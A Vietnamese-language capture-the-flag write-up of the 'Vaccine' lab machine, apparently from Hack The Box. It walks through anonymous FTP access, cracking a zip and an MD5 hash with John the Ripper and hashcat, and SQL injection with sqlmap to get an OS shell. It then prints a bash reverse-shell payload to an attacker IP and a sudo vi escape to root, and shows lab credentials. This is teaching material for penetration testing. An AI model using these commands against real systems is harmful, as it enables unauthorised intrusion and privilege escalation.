

# Vaccine

## Introduction

Kiểm thử xâm nhập không hề đơn giản, nó đòi hỏi nhiều kiến ​​thức kỹ thuật và khả năng suy nghĩ vượt ra ngoài khuôn khổ. Đôi khi tìm thấy các lỗ hổng đơn giản nhưng nguy hiểm, đôi khi tìm thấy các lỗ hổng mà các khai thác công khai tồn tại mà có thể sử dụng để dễ dàng truy cập vào hệ thống. Thực tế là, hầu hết thời gian cần phải có nhiều lỗ hổng và cấu hình sai khác nhau, nơi phải liên kết tất cả chúng lại với nhau để truy cập vào hệ thống của máy mục tiêu hoặc có một hệ thống không có lỗ hổng, nhưng có mật khẩu yếu có thể cấp quyền truy cập vào hệ thống. Vaccine là cỗ máy dạy cách liệt kê luôn là chìa khóa, ngay cả khi hệ thống có vẻ an toàn. Ngoài ra, nó cũng dạy tầm quan trọng của việc bẻ khóa mật khẩu, thật ngạc nhiên khi biết rằng không phải ai cũng có mật khẩu mạnh.

## Enumeration

Như thường lệ, bắt đầu bằng việc quét Nmap:


Có ba cổng mở: 21 (FTP), 22 (SSH), 80 (HTTP). Vì không có bất kỳ thông tin xác thực nào cho dịch vụ SSH, bắt đầu bằng cách liệt kê cổng 21, vì Nmap cho thấy nó cho phép đăng nhập ẩn danh:


Thấy có một file backup.zip có sẵn, tải nó xuống:


Nó sẽ nằm trong thư mục thiết lập kết nối FTP. Thử giải nén nó bằng lệnh unzip:


Tệp nén yêu cầu nhập mật khẩu. Thử một vài mật khẩu cơ bản để xem liệu nó có cho phép vào không, tuy nhiên, không có kết quả.


Phải bẻ khóa mật khẩu bằng cách nào đó. Công cụ sử dụng cho nhiệm vụ này có tên là John the Ripper.

```
John the Ripper là một công cụ phần mềm bẻ khóa mật khẩu miễn phí. Ban đầu được phát triển cho hệ điều hành Unix, nó có thể chạy trên 15 nền tảng khác nhau (11 trong số đó là các phiên bản dành riêng cho kiến ​​trúc của Unix, DOS, Win32, BeOS và OpenVMS). Đây là một trong những chương trình kiểm tra và phá mật khẩu được sử dụng thường xuyên nhất vì nó kết hợp một số trình bẻ khóa mật khẩu thành một gói, tự động phát hiện các loại băm mật khẩu và bao gồm một trình bẻ khóa có thể tùy chỉnh. Nó có thể chạy trên nhiều định dạng mật khẩu được mã hóa khác nhau bao gồm một số loại băm mật khẩu crypt thường thấy nhất trên nhiều phiên bản Unix khác nhau (dựa trên DES, MD5 hoặc Blowfish), Kerberos AFS và băm LM Windows NT/2000/XP/2003. Các mô-đun bổ sung đã mở rộng khả năng của nó để bao gồm các băm mật khẩu dựa trên MD4 và mật khẩu được lưu trữ trong LDAP, MySQL và các loại khác.
```

John the Ripper được cài đặt sẵn Parrot OS & Kali Linux, tuy nhiên, nếu chưa có, có thể cài đặt từ kho lưu trữ:


Sau khi cài đặt, nhập lệnh sau để kiểm tra cách sử dụng:


Để bẻ khóa mật khẩu thành công, phải chuyển đổi ZIP thành hàm băm bằng cách sử dụng mô-đun zip2john có trong John the Ripper:


Bây giờ, nhập lệnh sau:

```
john -wordlist=/usr/share/wordlists/rockyou.txt hashes
```

Vì vậy, nó sẽ tải wordlist và thực hiện một cuộc tấn công bruteforce vào hash được lưu trữ trong file `hashes`. Sau khi mật khẩu bị bẻ khóa, sử dụng tùy chọn `--show` để hiển thị mật khẩu đã bẻ khóa.


Thấy mật khẩu đã bẻ khóa: `741852963`. Giải nén các tập tin ngay bây giờ:


Bây giờ đọc tệp index.php trước:

```
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === 
"2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
```

Thấy thông tin đăng nhập của `admin:2cb42f8734ea607eefed3b70af13bbd3`, có thể sử dụng. Nhưng mật khẩu có vẻ như đã được băm.

Cố gắng xác định loại băm và bẻ khóa nó bằng hashcat:


Nó cung cấp một danh sách lớn các hàm băm có thể, tuy nhiên, trước tiên sẽ sử dụng MD5:

Đưa hàm băm vào một tệp văn bản có tên là hash & sau đó bẻ khóa nó bằng hashcat:


Hashcat đã bẻ khóa mật khẩu: `qwerty 789` 

Khởi động trình duyệt web đã liệt kê cổng 80, xem có thể đăng nhập ở đâu:


Có thể thấy trang đăng nhập, bằng cách cung cấp tên người dùng đã tìm thấy trước đó và mật khẩu đã bẻ khóa, đăng nhập thành công!


## Foothold

Vì vậy, bảng điều khiển không có gì đặc biệt, tuy nhiên, nó có một danh mục, có thể được kết nối với cơ sở dữ liệu. Hãy tạo bất kỳ truy vấn nào:



Bằng cách kiểm tra URL, thấy có một biến `$search` chịu trách nhiệm tìm kiếm qua danh mục. Kiểm tra xem nó có thể inject SQL được không, nhưng thay vì thực hiện thủ công, sử dụng một công cụ có tên là `sqlmap`.

```
SQLmap là một công cụ mã nguồn mở được sử dụng trong thử nghiệm thâm nhập để phát hiện và khai thác các lỗ hổng SQL injection. SQLmap tự động hóa quá trình phát hiện và khai thác SQL injection. Các cuộc tấn công SQL Injection có thể kiểm soát các cơ sở dữ liệu sử dụng SQL.
```

sqlmap được cài đặt sẵn với Parrot OS & Kali Linux, tuy nhiên, có thể cài đặt thông qua kho lưu trữ nếu không có:

```
sudo apt install sqlmap
```

Để xem cách sử dụng nó, nhập lệnh sau:


Cung cấp URL & cookie cho sqlmap để nó tìm ra lỗ hổng. Lý do tại sao phải cung cấp cookie là vì xác thực:

Để lấy cookie, chặn bất kỳ yêu cầu nào trong Burp Suite & lấy từ đó, tuy nhiên, có thể cài đặt tiện ích mở rộng tuyệt vời cho trình duyệt web có tên là `cookie-editor`:


Các cookie trong các thông điệp HTTP của yêu cầu thường được thiết lập theo cách sau: `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1`

Biết được điều đó, cú pháp sqlmap sẽ trông như thế này:

```
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1"
```

Đã chạy sqlmap:

Lưu ý: Sẽ có một số câu hỏi mà công cụ sẽ hỏi, có thể trả lời bằng 'Y' hoặc 'N' hoặc chỉ cần nhấn ENTER để có câu trả lời mặc định.

Trong số kết quả này, điều quan trọng là:

```
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
```

Công cụ đã xác nhận rằng mục tiêu dễ bị tấn công SQL injection, đó là tất cả những gì cần biết. Chạy sqlmap một lần nữa, tại đó cung cấp cờ --os-shell, tại đó có thể thực hiện lệnh injection:


Đã có shell, tuy nhiên, nó không ổn định và tương tác lắm. Để làm cho nó ổn định hơn, sử dụng payload sau:

```
bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
```

Bật trình lắng nghe netcat trên cổng 443:


Sau đó thực thi payload:


Quay lại trình nghe để xem liệu có kết nối được hay không:


Đã có chỗ đứng. Nhanh chóng làm cho shell hoàn toàn tương tác:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

Bây giờ đã có shell tương tác đầy đủ.

User flag có thể được tìm thấy trong `/var/lib/postgresql/`:

```
postgres@vaccine:~$ ls
user.txt
postgres@vaccine:~$
```

## Privilege Escalation

Là người dùng `postgres`, nhưng không biết mật khẩu của nó, điều đó có nghĩa là không thể kiểm tra quyền sudo:

```
postgres@vaccine:~$ sudo -l
[sudo] password for postgres:
```

Cố gắng tìm mật khẩu trong thư mục `/var/www/html`, vì máy sử dụng cả PHP và SQL, nghĩa là phải có thông tin xác thực ở dạng văn bản thuần túy:

```
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html
postgres@vaccine:/var/www/html$ ls -la
total 392
drwxr-xr-x 2 root root   4096 Jul 23 14:00 .
drwxr-xr-x 3 root root   4096 Jul 23 14:00 ..-rw-rw-r-- 1 root root 362847 Feb  3  2020 bg.png-rw-r--r-- 1 root root   4723 Feb  3  2020 dashboard.css-rw-r--r-- 1 root root     50 Jan 30  2020 dashboard.js-rw-r--r-- 1 root root   2313 Feb  4  2020 dashboard.php-rw-r--r-- 1 root root   2594 Feb  3  2020 index.php-rw-r--r-- 1 root root   1100 Jan 30  2020 license.txt-rw-r--r-- 1 root root   3274 Feb  3  2020 style.css
postgres@vaccine:/var/www/html$
```

Trong dashboard.php, tìm thấy thông tin sau:

```
session_start();
  if($_SESSION['login'] !== "true") {
    header("Location: index.php");
  die();
}
try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}
```

Mật khẩu là: `P@s5w0rd!`

Lưu ý rằng shell có thể chết đột ngột, thay vì thực hiện lại khai thác một lần nữa, sử dụng SSH để đăng nhập:

```
┌─[ilinor@Parrot]─[~/Vaccine]
└──╼ $ssh postgres@10.129.95.174
The authenticity of host '10.129.95.174 (10.129.95.174)' can't be established.
ECDSA key fingerprint is SHA256:eVsQ4RXbKR9eOZaXSlMmyuKTDOQ39NAb4vD+GOegBvk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.95.174' (ECDSA) to the list of known hosts.
postgres@10.129.95.174's password: P@s5w0rd!
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
 System information as of Sat 24 Jul 2021 11:16:59 AM UTC

 System load:  0.0               Processes:             245
 Usage of /:   35.0% of 8.73GB   Users logged in:       0
 Memory usage: 19%               IP address for ens160: 10.129.95.174
 Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be installed immediately.
0 of these updates are security updates.

Your Ubuntu release is not supported anymore.
For upgrade information, please visit:
http://www.ubuntu.com/releaseendoflife

New release '20.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

postgres@vaccine:~$
```

Nhập `sudo -l` để xem có những quyền gì:

```
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:~$
```

Vì vậy, có quyền sudo để chỉnh sửa tệp pg_hba.conf bằng vi bằng cách chạy sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf. Đến GTFOBins để xem liệu có thể lạm dụng quyền này hay không: https://gtfobins.github.io/gtfobins/vi/#sudo

```
Nếu tệp nhị phân được phép chạy dưới dạng siêu người dùng bởi sudo, nó không làm mất các đặc quyền nâng cao và có thể được sử dụng để truy cập hệ thống tệp, nâng cấp hoặc duy trì quyền truy cập đặc quyền.

    sudo vi -c ':!/bin/sh' /dev/null
```

Vì vậy, thực hiện nó:

```
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' /dev/null
Sorry, user postgres is not allowed to execute '/bin/vi /etc/postgresql/11/main/pg_hba.conf -c :!/bin/sh /dev/null'  as root on vaccine.
```

Không thể thực hiện lệnh sau vì `sudo` chỉ giới hạn ở `/bin/vi /etc/postgresql/11/main/pg_hba.conf`.

Theo GTFOBins, cũng có một cách khác:

```
vi
:set shell=/bin/sh
:shell
```

Vì vậy, thực hiện điều đó:

```
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Mở được trình soạn thảo `vi` với tư cách là siêu người dùng, có quyền root:


Bây giờ nhấn nút `:` để thiết lập các hướng dẫn bên trong `Vi`:

```
:set shell=/bin/sh
```


Tiếp theo, mở giao diện hướng dẫn tương tự và nhập lệnh sau:

```
:shell
```


Sau khi thực hiện các hướng dẫn, thấy kết quả sau:

```
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Có thể lấy root flag trong thư mục gốc:

Lưu ý: Gõ `bash` để chuyển sang shell `/bin/bash`:

```
# cd /root
# bash
root@vaccine:~# ls
root.txt
root@vaccine:~#
```

Thành công khi có được root flag